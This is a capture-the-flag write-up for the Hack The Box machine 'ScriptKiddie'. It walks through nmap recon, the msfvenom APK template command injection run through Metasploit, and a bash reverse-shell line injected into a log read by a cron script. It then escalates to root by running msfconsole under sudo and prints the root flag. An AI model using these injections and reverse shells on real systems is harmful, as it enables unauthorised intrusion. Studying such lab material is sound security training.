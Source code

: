 ```yaml
---                                                                                                                                  
title: Hackthebox - ScriptKiddie                                                                                                             
image: /assets/img/htb-scriptkiddie/htb-scriptkiddie-logo.png                                                                          
date: 2021-06-05                                                                                                                      
categories: [Hackthebox]                                                                                                               
tags: [linux, metasploit, bash, nmap, apk]     
show: "Scriptkiddie as the name suggests is a linux machine which hosts hacker tools for scanning and generating payloads. It begins by finidng metasploit vulnerability to gain foothold on the machine. There is a cronjob in the machine that is running a bash script. We take advantage of this script to gain a reverse shell as the user. The pwned user is able to run metasploit with superuser privileges which we execute bash to gain root access."
---
```


# Summary
Scriptkiddie as the name suggests is a linux machine which hosts hacker tools for scanning and generating payloads. It begins by finidng metasploit vulnerability to gain foothold on the machine. There is a cronjob in the machine that is running a bash script. We take advantage of this script to gain a reverse shell as the user. The pwned user is able to run metasploit with superuser privileges which we execute bash to gain root access.

# Recon

## Nmap
Nmap finds two open TCP ports, SSH (22) and HTTP (5000):
```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# nmap -sC -sV -oN nmap/scriptkiddie 10.10.10.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 21:35 EDT
Nmap scan report for 10.10.10.226
Host is up (0.28s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds
```
Based on nmap result, the target is likely running Ubuntu Focal.

## Webserver - TCP 80
The webserver is hosting 3 services:
- scanning using nmap
- generating metasploit payloads 
- searching exploits using searchsploits

![](htb-scriptkiddie/2021-06-04-21-49-09.png)

I conducted directory bruteforce but did not find any hidden files. I also went through the source code of the website and nothing stood out for me.

I tried to escape the nmap command by using bash special characters like ```; and &&``` but they all displayed the error below.

![](htb-scriptkiddie/2021-06-04-22-00-03.png)

The webserver is using [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate payloads. In the dropdown, there are ```windows, linux and android``` options to choose from and an optional template file attachments. 

![](htb-scriptkiddie/2021-06-04-22-04-01.png)

Googling ```metasploit template vulnerability``` returns [Metasploit Framework msfvenom APK Template Command Injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) vulnerability.

![](/assets/img/htb-scriptkiddie/2021-06-04-22-15-12.png)

# Exploitation
## Foothold
There are a multiple proof of concept payloads for the metasploit template vulnerability. I generated the ```.apk``` payload using msfconsole:

```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# msfconsole -q   
msf6 > search metasploit template

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/jira_hipchat_template                                2015-10-28       excellent  Yes    Atlassian HipChat for Jira Plugin Velocity Template Injection
   1  exploit/unix/webapp/datalife_preview_exec                               2013-01-28       excellent  Yes    DataLife Engine preview.php PHP Code Injection
   2  exploit/windows/fileformat/mcafee_showreport_exec                       2012-01-12       normal     No     McAfee SaaS MyCioScan ShowReport Remote Command Execution
   3  exploit/windows/http/exchange_ecp_dlp_policy                            2021-01-12       excellent  Yes    Microsoft Exchange Server DlpUtils AddTenantDlpPolicy RCE
   4  auxiliary/gather/oats_downloadservlet_traversal                         2019-04-16       normal     Yes    Oracle Application Testing Suite Post-Auth DownloadServlet Directory Traversal
   5  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection
msf6 > use 5
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost tun0
lhost => tun0
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 9001
lport => 9001
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk
```
The ```msf.apk``` payload was saved in ```/root/.msf4/local/msf.apk``` directory. 

I started listening on port 9001 on my kali machine and uploaded the ```msf.apk``` file. 

![](/assets/img/htb-scriptkiddie/2021-06-04-22-36-21.png)

# Privilege Escelation

## User Privesc
I landed on the target as ```kid``` user. There was another user ```pwn``` in the system. 
I the home directory of ```kid``` user, there is a bash script ```scanloser.sh``` and the following bash script:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
The script does the following:
- It specifies ```log``` variable as ```/home/kid/logs/hackers```
- it gets the content of ```/home/kid/logs/hackers```, splits on space and grabs everything beyond 3rd column
- It then executes ```nmap``` on it

In order to abuse this script, we have to insert 3 spaces before our payload. i.e

```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# cat test.txt                 
1 2 3 4 5 6 7 8 9
                                                                                                                                       
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# cat test.txt | cut -d' ' -f3- 
3 4 5 6 7 8 9
                                                                                                                                       
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# 
```
I inserted below line to ```/home/kid/logs/hackers``` in order obtain reverse a shell as ```pwn``` user

```bash
echo -n "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.40/9001 0>&1';" > /home/kid/logs/hackers
```
The above line has 3 spaces before ```;```. I used ```echo -n``` option to avoid the trailing line.

Received reverse shell as ```pwn``` user.

![](/assets/img/htb-scriptkiddie/2021-06-04-23-24-36.png)

## Root Privesc
The user ```pwn``` can execute ```/opt/metasploit-framework-6.0.9/msfconsole``` with superuser privilege.

Metasploit can execute command with option ```-x```. ```-q``` is to ignore metasploit banner from displayed.

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x bash
[*] exec: bash

root@scriptkiddie:/home/pwn# whoami
root
root@scriptkiddie:/home/pwn# cat /root/root.txt 
5b6cdaf092a4be80da48835068553ae7
root@scriptkiddie:/home/pwn# 
```

![](htb-scriptkiddie/2021-06-04-23-27-10.png)
